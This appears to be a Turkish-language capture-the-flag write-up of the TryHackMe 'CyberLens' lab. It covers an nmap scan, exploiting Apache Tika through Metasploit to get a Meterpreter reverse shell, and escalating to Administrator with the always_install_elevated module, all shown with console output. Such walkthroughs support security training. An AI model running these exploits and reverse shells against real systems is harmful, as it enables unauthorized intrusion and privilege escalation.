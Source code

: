 ```yaml
---
title: 'TryHackMe | CyberLens WriteUp'
author: appdone
categories: [TryHackMe]
render_with_liquid: false
media_subpath: /images/tryhackme_cyberlens/
image:
  path: logo.webp
---
```


Bu yazımda, TryHackMe platformunda yer alan "CyberLens" isimli meydan okumayı çözeceğiz. Öncelikle hedefi tanımak adına nmap ile bir port taraması yapalım. Daha sonra açık portlara ve üzerinde çalışan servislere göre yolumuzu çizmeye başlayabiliriz.

```console
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-16 05:34 EDT
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Apache httpd 2.4.57 ((Win64))
|_http-server-header: Apache/2.4.57 (Win64)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: CyberLens: Unveiling the Hidden Matrix
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=CyberLens
| Not valid before: 2025-03-15T09:33:29
|_Not valid after:  2025-09-14T09:33:29
| rdp-ntlm-info: 
|   Target_Name: CYBERLENS
|   NetBIOS_Domain_Name: CYBERLENS
|   NetBIOS_Computer_Name: CYBERLENS
|   DNS_Domain_Name: CyberLens
|   DNS_Computer_Name: CyberLens
|   Product_Version: 10.0.17763
|_  System_Time: 2025-03-16T09:35:12+00:00
|_ssl-date: 2025-03-16T09:35:20+00:00; +3s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

SMB servisine misafir olarak bağlanamadığımdan doğrudan web uygulamasına yöneleceğim.

![upload form](1.webp){: width="900" height="500" }

Web uygulamasında resimlerden meta verilerini çıkaran bir form var ama çalışmıyor. Sayfanın kaynak kodunu görüntülediğimizde aşağıdaki javascript kodu ile karşılaşıyoruz.

```js
document.addEventListener("DOMContentLoaded", function() {
    document.getElementById("metadataButton").addEventListener("click", function() {
        var fileInput = document.getElementById("imageFileInput");
        var file = fileInput.files[0];

        var reader = new FileReader();
        reader.onload = function() {
            var fileData = reader.result;

            fetch("http://cyberlens.thm:61777/meta", {
                method: "PUT",
                body: fileData,
                headers: {
                    "Accept": "application/json",
                    "Content-Type": "application/octet-stream"
                }
            })
            .then(response => {
                if (response.ok) {
                    return response.json();
                } else {
                    throw new Error("Error: " + response.status);
                }
            })
            .then(data => {
                var metadataOutput = document.getElementById("metadataOutput");
                metadataOutput.innerText = JSON.stringify(data, null, 2);
            })
            .catch(error => {
                console.error("Error:", error);
            });
        };

        reader.readAsArrayBuffer(file);
    });
});
```

Kodu incelediğimizde 61777 numaralı port’a bir PUT isteğinde bulunduğunu görüyoruz. Girilen dosya bu sayfaya gönderiliyor.

![web server](2.webp){: width="900" height="500" }

Gördüğünüz üzere apache tika adında bir servis çalışıyor. Bu servisi sürümüyle beraber internette arattığımızda bir [github](https://www.rapid7.com/db/modules/exploit/windows/http/apache_tika_jp2_jscript/) sayfası ile karşılaşıyoruz.

Metasploit üzerinde bu servisi sömürebileceğimiz bir exploit bulunuyor. Exploit'i kullanmadan da bağlantı elde edebiliriz, ancak "windows exploit suggester" modülünü kullanacağım için metasploit'i kullanacağım.

```console
...
[*] Sending PUT request to 10.10.231.162:61777/meta
[*] Command Stager progress - 100.00% done (98798/98798 bytes)
[*] Sending stage (177734 bytes) to 10.10.231.162
[*] Meterpreter session 1 opened (10.21.66.61:4444 -> 10.10.231.162:49759) at 2025-03-16 05:45:45 -0400

(Meterpreter 1)(C:\Windows\system32) >
```

Bağlantı elde ettikten sonra C:\Users\CyberLens\Desktop dizininden kullanıcı bayrağını aldım ve nasıl yetki yükseltebileceğimi öğrenmek için "post/multi/recon/local_exploit_suggester" modülünü kullandım.

```console
...
[+] 10.10.231.162 - exploit/windows/local/always_install_elevated: The target is vulnerable.
...
```

Kontroller sonucunda "always install elevated" ayarının açık olduğunu öğrendim. Bu ayar normal kullanıcıların yönetici yetkisiyle dosya yükleyebilmesini sağlıyor. Tekrar metasploit üzerinde bulunan exploit’i kullanacağım.

```console
(Meterpreter 1)(C:\Windows\system32) > run exploit/windows/local/always_install_elevated LHOST=tun0 LPORT=1234
[*] Started reverse TCP handler on 10.21.66.61:1234 
[*] Uploading the MSI to C:\Users\CYBERL~1\AppData\Local\Temp\1\hqrKiig.msi ...
[*] Executing MSI...
[*] Sending stage (177734 bytes) to 10.10.231.162
[+] Deleted C:\Users\CYBERL~1\AppData\Local\Temp\1\hqrKiig.msi
[*] Meterpreter session 2 opened (10.21.66.61:1234 -> 10.10.231.162:49781) at 2025-03-16 05:49:48 -0400
[*] Session 2 created in the background.
```

Exploit'i çalıştırdıktan sonra yönetici yetkisinde bir oturum açılıyor. Yönetici bağlantısının olduğu oturuma geçtikten sonra masaüstünden son bayrağı alıyoruz.

```console
(Meterpreter 2)(C:\Users\Administrator\Desktop) > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  527   fil   2016-06-21 11:36:17 -0400  EC2 Feedback.website
100666/rw-rw-rw-  554   fil   2016-06-21 11:36:23 -0400  EC2 Microsoft Windows Guide.website
100666/rw-rw-rw-  24    fil   2023-11-27 14:50:45 -0500  admin.txt
100666/rw-rw-rw-  282   fil   2021-03-17 11:13:27 -0400  desktop.ini

(Meterpreter 2)(C:\Users\Administrator\Desktop) > cat admin.txt 
THM{***}
```
